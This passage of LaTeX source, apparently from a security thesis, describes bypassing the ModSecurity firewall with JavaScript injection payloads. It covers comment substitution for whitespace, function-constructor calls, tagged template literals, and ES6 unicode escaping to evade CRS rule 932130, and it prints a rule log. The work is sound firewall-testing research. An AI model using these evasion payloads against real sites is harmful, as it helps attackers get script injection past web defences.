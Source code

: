 In order to avoid the splitting of statements synchronous to whitespaces in the payload string, JavaScript comment interference was used. 
According to the JavaScript comment substitution technique stated under Section~\ref{sec:jscommentsub}, all whitespaces were replaced by JavaScript comments, creating the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=function constructor bypass payload using square bracket notation]
[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using dot notation]
[].constructor.constructor(`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

\subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads still need to be valid and bypass the waf.
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|. This made the payload bypass the ModSecurity firewall. The bypassing payload:

